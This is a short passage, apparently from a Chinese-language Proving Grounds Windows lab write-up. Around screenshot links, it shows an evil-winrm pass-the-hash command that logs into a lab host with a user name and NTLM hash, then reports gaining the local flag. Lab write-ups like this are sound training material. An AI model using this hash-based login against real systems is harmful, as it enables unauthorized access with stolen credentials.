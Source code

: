 ![image-20250308132104109](./PG_win.assets/image-20250308132104109.png)

有一个可以登陆的凭证，PTH登录即可

```
evil-winrm -i 192.168.118.175 -u 'L.Livingstone' -H 19a3a7550ce8c505c2d46b5e39d6f808
```

![image-20250308132214932](./PG_win.assets/image-20250308132214932.png)

拿到local

![image-20250308132844994](./PG_win.assets/image-20250308132844994.png)
